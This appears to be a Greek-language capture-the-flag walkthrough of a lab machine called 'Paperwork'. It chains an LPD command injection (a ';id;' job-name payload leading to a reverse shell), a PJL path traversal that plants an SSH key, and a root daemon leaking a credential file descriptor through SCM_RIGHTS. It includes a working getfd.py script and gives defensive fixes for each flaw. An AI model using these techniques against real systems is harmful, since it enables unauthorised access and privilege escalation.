


Το Paperwork ντύνει μια αλυσίδα μικρών, αυτόνομων υπηρεσιών Python σαν εταιρικό pipeline "αρχειοθέτησης εγγράφων". Το foothold είναι ένα OS command injection σε μια χειροφτιαγμένη υπηρεσία intake LPD (RFC 1179) που εξυπηρετικά κουβαλά τη δική της πηγή. Αυτό προσγειώνεται σαν lp, που μπορεί να φτάσει μια δεύτερη υπηρεσία — έναν emulator εκτυπωτή JetDirect / PJL του οποίου το path sanitiser είναι διακοσμητικό, δίνοντας ένα αυθαίρετο file write μέσα στο home του archivist και πρόσβαση SSH. Το root είναι το ενδιαφέρον κομμάτι: ένας daemon που ανήκει στον root περνά στον client ένα ανοιχτό file descriptor σε ένα αρχείο credential μόνο-root μέσω ενός UNIX socket με SCM_RIGHTS, οπότε ο archivist διαβάζει ένα password που ποτέ δεν είχε άδεια να ανοίξει.
SP1R4@kali)-[~]└$ nmap -p- --min-rate 2000 -sC -sV <TARGET_IP> -oA paperworkPORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 10.0p2 Ubuntu 5ubuntu5.4 (Ubuntu Linux; protocol 2.0)
80/tcp open http nginx 1.28.0 (Ubuntu)
|_http-title: Did not follow redirect to http://paperwork.htb/
1515/tcp open ifor-protocol?
| fingerprint-strings:
| TerminalServerCookie:
|_ Archive_Printer is ready and printing.
Το TTL 63 στο ping έλεγε ήδη Linux. Το OpenSSH 10 είναι ολοκαίνουριο — κανένα δωρεάν foothold εκεί, οπότε είναι η έξοδος, όχι η είσοδος. Η θύρα 80 απαντά στη γυμνή IP με ένα redirect στο paperwork.htb, που σημαίνει ότι το nginx κάνει routing με βάση την κεφαλίδα Host: — πρόσθεσε το vhost και παίρνουμε μια πραγματική σελίδα:
/etc/hosts
SP1R4@kali)-[~]└$ echo "<TARGET_IP> paperwork.htb" | sudo tee -a /etc/hosts
Η πύλη intake

Κάθε γραμμή σε αυτή τη σελίδα είναι μια ένδειξη:
"Backend spooler PRN-ARCHIVE-01" — ένας print spooler.
"Compliance Level: RFC 1179" — το RFC 1179 είναι το πρωτόκολλο Line Printer Daemon, κανονικά TCP 515. Το scan μας βρήκε μια υπηρεσία σαν-εκτυπωτή στη 1515.
"Remote job submission … Submissions without a valid identifier will fail" — υπάρχει input validation σε κάποιο identifier job.
Ο Internal Processor κάνει link στο /download/archive.
Όχι ένας compiled "processor" — η ίδια η πηγή της υπηρεσίας. Αυτό μετατρέπει την εκμετάλλευση σε άσκηση ανάγνωσης.
Foothold — Command Injection στην Υπηρεσία Intake LPD
Το server.py είναι ένας ελάχιστος, μη-στάνταρ listener LPD στη θύρα 1515. Το σχετικό path είναι ο handler "receive print job":
server.py — handle_print_job()
def handle_print_job(self, data):
queue = data[1:].decode().strip()
if queue not in VALID_QUEUE: # substring check vs $LPD_QUEUE
self.sock.send(b'\x01'); return
self.sock.send(b'\x00')
while True:
chunk = self.sock.recv(1024)
subcommand = chunk[0]
self.sock.send(b'\x00')
if subcommand == 2: # control file
size = int(chunk[1:].decode().split()[0])
content = b""
while len(content) < size:
content += self.sock.recv(size - len(content) + 1)
job_name = "Unknown"
for line in content.decode(errors='ignore').split('\n'):
if line.strip().startswith('J'):
job_name = line.strip()[1:]; break
subprocess.Popen(f"echo 'Archive: {job_name}' >> /tmp/archive.log", shell=True)
Το job_name έρχεται κατευθείαν από το καλώδιο — είναι η γραμμή J του control file του job — και παρεμβάλλεται σε ένα string shell με shell=True. Όρισε το όνομα job σε ';id;' και το shell τρέχει:
the resulting command line
echo 'Archive: '; id ; '' >> /tmp/archive.log
Το πρωτόκολλο γύρω του είναι κομμένο από το πραγματικό RFC 1179: στείλε byte 0x02 + το όνομα queue (η σελίδα μας λέει ότι είναι archive_intake, και ο έλεγχος είναι ένα ελαστικό substring test), διάβασε το ack 0x00, μετά στείλε ένα chunk 0x02 + "<size> <name>", μετά ακριβώς <size> bytes κειμένου control-file που περιέχει μία γραμμή J<payload>. Ένας σύντομος client το κάνει:
SP1R4@kali)-[~]└$ python3 exploit.py && nc -lvnp 4444connect to [<LHOST>] from <TARGET_IP>
lp@paperwork:/opt/LPDServer$ id
uid=7(lp) gid=7(lp) groups=7(lp)
Το να παρεμβάλλεις οποιαδήποτε τιμή ελεγχόμενη από το δίκτυο σε ένα f-string που δίνεται στο subprocess με shell=True είναι όλο το bug. Το Popen([...], shell=False) με μια λίστα ορισμάτων — ή απλά το shlex.quote — το σκοτώνει.
lp → archivist — Path Traversal στον Emulator JetDirect
Ο lp είναι ένας service account χωρίς sudo (το binary δεν είναι καν εγκατεστημένο). Η καταμέτρηση διαδικασιών και sockets δείχνει τι άλλο είναι τοπικό:
ps aux / ss -tlnp
lp@paperwork:/opt/LPDServer$ ps aux | grep -E 'python|printer' ; ss -tlnproot /usr/bin/python3 /root/staging/CorpoSite/app.py # the site, as root
archiv+ /usr/bin/python3 /home/archivist/printer/jetdirect.py 9100 /home/archivist/printer/ ...
lp /usr/bin/python3 /opt/LPDServer/server.py
root /usr/bin/python3 /usr/bin/paperwork-daemon
LISTEN 127.0.0.1:1337 # Flask dev instance of the site (dead end)
LISTEN 0.0.0.0:1515 # our LPD
LISTEN 127.0.0.1:9100 # jetdirect.py, run by archivist
Ο archivist τρέχει έναν emulator raw-print / PJL στη 9100, φυλακισμένο στο /home/archivist/printer/. Οι emulators PJL υλοποιούν FSUPLOAD (ανάγνωση) και FSDOWNLOAD (εγγραφή). Το FSUPLOAD παραδίδει τη δική του πηγή του emulator:
jetdirect.py — Filesystem._translate()
class Filesystem:
def __init__(self, root_dir):
self._root = os.path.abspath(root_dir)
def _translate(self, path):
clean = path.replace("0:", "").replace("\\", "/").lstrip("/")
return os.path.normpath(os.path.join(self._root, clean))
def read(self, path):
target = self._translate(path)
if os.path.isfile(target):
with open(target, "rb") as f: return f.read()
def write(self, path, data):
target = self._translate(path)
os.makedirs(os.path.dirname(target), exist_ok=True) # will create ~/.ssh for us
with open(target, "wb") as f: f.write(data)
Το "sanitiser" αφαιρεί το prefix volume 0: και κόβει αρχικά slashes — και δεν κάνει τίποτα για το ../. Το normpath(join("/home/archivist/printer", "../.ssh/authorized_keys")) συμπτύσσεται σε /home/archivist/.ssh/authorized_keys. (Ένα προηγούμενο FSQUERY του /etc/passwd επέστρεψε FILEERROR=1 — όχι ένα block, απλά το os.listdir() πέταξε error σε μη-φάκελο. Read και write δεν έχουν τέτοιο φρουρό.) Οπότε φυτεύουμε ένα κλειδί SSH:
SP1R4@kali)-[~]└$ ssh -i pw_key archivist@<TARGET_IP>archivist@paperwork:~$ id && cat user.txt
uid=1000(archivist) gid=1000(archivist) groups=1000(archivist)
[redacted — user flag]
Το os.path.normpath είναι canonicalisation string, όχι sandbox. Το να περιορίσεις ένα path σημαίνει να το κάνεις resolve (realpath) και να επιβεβαιώσεις ότι το αποτέλεσμα είναι ακόμα κάτω από τον επιδιωκόμενο root — os.path.commonpath([root, resolved]) == root — πριν αγγίξεις το filesystem.
archivist → root — Διαρρευσμένο File Descriptor μέσω SCM_RIGHTS
Το /usr/bin/paperwork-daemon τρέχει σαν root και ακούει σε ένα UNIX socket. Δύο λεπτομέρειες έχουν σημασία:
paperwork-daemon — the relevant bits
admin_fd = os.open("/etc/paperwork/admin_pins.conf", os.O_RDONLY) # opened once, as root
LOG_PATH = "/home/archivist/printer/logs/commands.log"
def scan_for_malice():
content = open(LOG_PATH).read().upper()
return any(t in content for t in ["FSQUERY", "FSUPLOAD", "FSDOWNLOAD"])
def trigger_lockdown(conn):
log_fd = os.open(LOG_PATH, os.O_RDONLY)
evidence_bundle = array.array("i", [log_fd, admin_fd])
conn.sendmsg([b"ALERT: SECURITY_VIOLATION..."],
[(socket.SOL_SOCKET, socket.SCM_RIGHTS, evidence_bundle)])
def main():
s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.bind("/run/paperwork/mgmt.sock")
os.chmod(socket_path, 0o660); os.chown(socket_path, 0, 1000) # root:archivist
while True:
conn, _ = s.accept()
if scan_for_malice(): trigger_lockdown(conn)
else: conn.sendall(b"STATUS: SYSTEM_CLEAN\n...")
Το socket είναι mode 0660, group archivist — οπότε μπορούμε να συνδεθούμε. Και όταν ο daemon αποφασίζει ότι το box έχει "παραβιαστεί", δεν το αναφέρει απλά — επισυνάπτει το admin_fd στην απάντηση σαν ancillary data. Το SCM_RIGHTS είναι ο μηχανισμός kernel για την αποστολή ενός ανοιχτού file descriptor πάνω από ένα UNIX socket: ο παραλήπτης παίρνει ένα ολοκαίνουριο fd στον δικό του πίνακα που αναφέρεται στην ίδια ανοιχτή περιγραφή αρχείου που είχε ήδη ο αποστολέας. Ο έλεγχος δικαιωμάτων συνέβη όταν ο root κάλεσε open()· το fd κουβαλά εκείνη την απόφαση. Όποιος το λάβει μπορεί να διαβάσει το αρχείο, ό,τι κι αν λένε τα permission bits.
Ελέγχουμε το trigger — το scan_for_malice() κάνει grep ένα αρχείο log που ανήκει στον archivist:

getfd.py (run as archivist)
import socket, os, array
open("/home/archivist/printer/logs/commands.log", "a").write("FSDOWNLOAD\n") # trip the scan
s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.connect("/run/paperwork/mgmt.sock")
msg, anc, _, _ = s.recvmsg(4096, socket.CMSG_SPACE(64))
for level, ctype, cdata in anc:
if (level, ctype) == (socket.SOL_SOCKET, socket.SCM_RIGHTS):
a = array.array("i"); a.frombytes(cdata)
for fd in a:
print(fd, os.readlink(f"/proc/self/fd/{fd}"))
print(os.pread(fd, 4096, 0))
Το αρχείο pin είναι root:root 0600 — ο archivist δεν μπορεί να το κάνει open(). Δεν χρειάστηκε: ο daemon το άνοιξε και παρέδωσε το descriptor. Εκείνο το password είναι του root:
su -
archivist@paperwork:~$ su -
Password:
root@paperwork:~# id && cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root)
[redacted — root flag]
Το να περάσεις ένα file descriptor είναι να περάσεις πρόσβαση, όχι ένα filename. Μια privileged διαδικασία που κάνει sendmsg() ένα fd σε έναν λιγότερο-privileged peer έχει μόλις delegate-άρει ό,τι μπορεί να κάνει εκείνο το fd. Αν ένας daemon πρέπει να μοιραστεί στοιχεία, θα έπρεπε να αντιγράψει τα bytes που σκοπεύει να αποκαλύψει — ποτέ το handle.
Γιατί Δούλεψε
Σταδιο
Ριζα του προβληματος
lp
shell=True + f-string παρεμβολή ενός job name ελεγχόμενου από το δίκτυο (CWE-78)
archivist
Path "sanitiser" που κάνει canonicalise αλλά ποτέ δεν περιορίζει· χωρίς realpath + έλεγχο prefix (CWE-22)
root
Privileged daemon στέλνει ένα ανοιχτό fd σε αρχείο μόνο-root σε έναν unprivileged client μέσω SCM_RIGHTS (CWE-732 / privilege delegation)